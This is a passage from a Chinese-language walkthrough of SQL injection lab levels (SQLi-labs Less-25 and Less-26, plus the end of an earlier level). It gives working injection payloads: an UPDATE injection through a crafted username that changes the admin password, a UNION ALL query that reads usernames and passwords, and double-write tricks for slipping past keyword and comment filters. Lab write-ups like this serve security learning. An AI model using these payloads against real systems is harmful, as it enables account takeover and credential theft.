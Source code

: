 这里形成的是一个 `update` 注入，所以注册一个用户名为 `test123' or username='admin` 的用户即可修改 admin 的密码。

## Less-25

提示 all your 'OR' and 'AND' belongs to us，服务端过滤了 `AND` 和 `OR` 两个关键词，但 `UNION ALL` 还能用。尝试 `?id=0' union all select 1,username,3 from users where '1'='1` 成功。但 `password` 里的 `or` 也被过滤了。注意页面底部有个 hint 提示过滤后的文本是什么样。

尝试双写 bypass `?id=0' union all select 1,username,passwoorrd from users where '1'='1`

![image-20220512151638205](image-20220512151638205.png)

成功。

## Less-26

提示 all your spaces and comments belongs to us，空格和注释会被过滤。

- `?id=1';--%20`，发现`--`被过滤
- `?id=1';%23`，发现`#`被过滤
- `?id=1';/*`，发现`/*`被过滤。

三种注释符都被过滤了，尝试双写绕过。`?id=1';//**` 依然被过滤。这就蛋疼了。审一下代码吧。

![image-20220512154804832](image-20220512154804832.png)
